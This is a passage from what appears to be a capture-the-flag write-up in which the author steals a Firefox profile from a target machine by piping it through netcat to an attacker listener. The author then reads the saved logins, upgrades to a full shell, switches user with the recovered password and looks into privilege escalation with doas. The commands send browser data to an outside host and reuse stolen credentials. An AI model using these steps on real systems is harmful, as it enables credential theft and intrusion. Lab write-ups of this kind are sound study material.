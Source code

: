 ```none
🎃 nc -l 9999|tar xf -
```

Then on our target machine we can move into the Firefox user data directory and tar it and pipe it thru to our netcat listener.

```none
$ cd /home/user/.firefox
$ tar cf - .|nc [attacker-ip] 9999
```

Now that we have the Firefox profile we can load it up like this:

```none
firefox --profile .firefox/b5w4643p.default-release
```

Looking into `about:logins` we can see some user login info. :space_invader:

```
username v0id
password love_the_void
```

It's possible these creds work for their system login but I got stuck here for a moment when trying to login as user `v0id`.  Since we're in an interactive shell only, using stuff like `su` doesn't work.

After looking around online I found really cool command to upgrade our shell to a full one.

```none
/usr/bin/script -qc /bin/bash /dev/null
user@ubuntu:~$
```

Now we have a full shell.  Let's check if our info from Firefox works now.

```none
user@ubuntu:/home/user$ su v0id
su v0id
Password: love_the_void

v0id@ubuntu:~$
```

We're now logged in as user `v0id` from the data we found in the Firefox profile.  Time to see if the user has any `sudo` access.

```none
v0id@ubuntu:/home/user$ sudo ls -la /root
sudo ls -la /root
[sudo] password for v0id: love_the_void

v0id is not in the sudoers file.  This incident will be reported.
```

Since we aren't on the sudoers list, we have to look around for other options to escalate privileges.  Looking around online for a bit for alternatives to `sudo` revealed something I'm not familiar with called `doas`.  This command `doas -u root /bin/bash` may get us what we need.
